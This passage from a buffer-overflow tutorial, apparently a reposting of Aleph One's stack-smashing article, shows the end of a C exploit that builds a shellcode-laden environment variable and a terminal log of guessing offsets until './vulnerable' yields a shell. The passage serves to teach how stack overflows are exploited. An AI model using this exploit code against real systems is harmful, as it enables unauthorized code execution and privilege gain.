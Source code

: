   int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i;

  if (argc > 1) bsize  = atoi(argv[1]);
  if (argc > 2) offset = atoi(argv[2]);

  if (!(buff = malloc(bsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("Using address: 0x%x\n", addr);

  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr += 4;
  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';

  memcpy(buff,"EGG=",4);
  putenv(buff);
  system("/bin/bash");
}
------------------------------------------------------------------------------
{% endhighlight %}

Now we can try to guess what the buffer and offset should be:

```
------------------------------------------------------------------------------
[aleph1]$ ./exploit2 500
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
[aleph1]$ exit
[aleph1]$ ./exploit2 600
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
Illegal instruction
[aleph1]$ exit
[aleph1]$ ./exploit2 600 100
Using address: 0xbffffd4c
[aleph1]$ ./vulnerable $EGG
Segmentation fault
[aleph1]$ exit
[aleph1]$ ./exploit2 600 200
Using address: 0xbffffce8
[aleph1]$ ./vulnerable $EGG
Segmentation fault
[aleph1]$ exit
.
.
.
[aleph1]$ ./exploit2 600 1564
Using address: 0xbffff794
[aleph1]$ ./vulnerable $EGG
$
------------------------------------------------------------------------------
```
